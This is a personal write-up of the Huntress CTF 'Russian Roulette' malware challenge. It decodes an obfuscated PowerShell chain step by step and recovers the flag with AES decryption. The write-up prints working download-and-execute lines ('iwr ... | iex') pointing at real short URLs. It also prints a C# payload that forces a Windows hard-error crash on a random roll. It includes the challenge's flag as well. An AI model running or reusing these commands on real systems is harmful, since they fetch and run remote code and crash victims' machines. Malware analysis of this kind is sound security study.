 2024-11-26 16:29

Status: #completed_huntress_CTF

Tags: [[huntressctf]] [[solved]] [[malware]] [[obfuscation]] [[ctf]] [[Cyber Security]] [[cyber security awareness month]] 

# Russian Roulette
Russian Roulette is a malware challenge that starts as a Windows Powershell link. 
Let's see what the target of that link is actually pointing at!
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```
Nice so it looks like some [[base64]] we can decode that in cyber chef to get. 
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```
Looks like it is reaching out to a web page and downloading the file, to the environment variable TMP location.
We can look up what the preview method for is.gd, but we'll preview the web page by adding a - to the end.
```
 is.gd/jwr7JD-
```
Which links to this Github repository, https://github.com/user-attachments/files/17251016/powershell.zip
So lets download that, and it isn't a zip archive, but it is just a txt. and looks to be very obfuscated
Here's a small example of what it looks like 
![[huntressctf_russian_Github_file.png]]
It's quite a large document. so let's run this, since it would normally be downloaded and ran in a malicious environment.
which gives us this base64
```
aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==
```
Which gives us this cmd
```
iwr is.gd/QRDyiP|iex 
```
So it reaches out to a web page again, downloads a file and then runs it.
We can do the same thing we did last URL, and see that this location is also a Github repository https://github.com/user-attachments/files/17242481/conhost.log
Let's download the file and investigate again.
We can cat out the contents and see that it runs another Power shell command.
```
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"   
```
This  command looks like it decrypts the flag,
I noticed the c, k, and i variable
```
c = ciphertext = RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw
k = key = /a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=
i = IV = 9sXGmK4q9LdYFdOp4TSsQw==
```

so not only is it Base64 encoded it's also AES encoded.
We can decrypt that with CyberChef pretty easily.
![[HuntressCTF_russianRoulette_flag_decrypt.png]]
And we have our flag!
```
 flag{4e4f266d44717ff3af8bd92d292b79ec}
```


# Resources
[[Short URL Preview links]]